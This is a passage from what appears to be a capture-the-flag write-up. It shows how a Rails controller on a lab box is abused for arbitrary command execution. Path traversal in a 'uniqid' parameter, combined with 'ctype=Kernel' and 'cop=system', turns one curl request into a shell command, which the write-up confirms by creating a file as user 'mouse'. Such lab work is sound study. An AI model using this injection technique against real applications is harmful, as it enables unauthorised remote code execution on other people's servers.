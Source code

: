 Going back to `/opt/wonderland/pool-of-tears/app/controllers/smoke_controller.rb`, we can see that
we now have control over more of the parameters since we can make requests via CURL.

```shell
$ curl localhost:4000
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100     2    0     2    0     0    400      0 --:--:-- --:--:-- --:--:--   400
OK$
```

If we pass the following:

* `ctype = "Kernel"`
* `cop = "system"`
* `uniqid = "../../../../../../bin/bash"`
* `cargs = ["-c", "touch /tmp/testing"]`
* `content = "x"`

Then we can coerce the controller to execute the following:

```ruby
Kernel.system("/opt/wonderland/logs/../../../../../../bin/bash", "-c", "touch /tmp/testing")
```

To test this out:

```shell
$ ls -la /tmp
total 20
drwxrwxrwt 1 root   root   4096 Jun  7 23:28 .
drwxr-xr-x 1 root   root   4096 Jun  6 22:29 ..
drwxrwx-wx 1 root   root   4096 Jun  7 00:33 hackers_use_me
drwxr-xr-x 2 hatter hatter 4096 Jun  7 00:52 hsperfdata_hatter
drwxr-xr-x 1 root   root   4096 May 28 17:14 hsperfdata_root
$ curl 'http://localhost:4000/api/v1/smoke?uniqid=%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fbin%2Fbash&ctype=Kernel&cop=system&cargs[]=-c&cargs[]=touch%20%2Ftmp%2Ftesting&content=potato'
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    28    0    28    0     0   1400      0 --:--:-- --:--:-- --:--:--  1400
Type is not implemented yet.
$ ls -la /tmp
total 20
drwxrwxrwt 1 root   root   4096 Jun  7 23:31 .
drwxr-xr-x 1 root   root   4096 Jun  6 22:29 ..
drwxrwx-wx 1 root   root   4096 Jun  7 00:33 hackers_use_me
drwxr-xr-x 2 hatter hatter 4096 Jun  7 00:52 hsperfdata_hatter
drwxr-xr-x 1 root   root   4096 May 28 17:14 hsperfdata_root
-rw-r--r-- 1 mouse  mouse     0 Jun  7 23:31 testing
$
```

Notice that the owner of the new `/tmp/testing` file is `mouse`. This confirms the arbitrary code
execution.
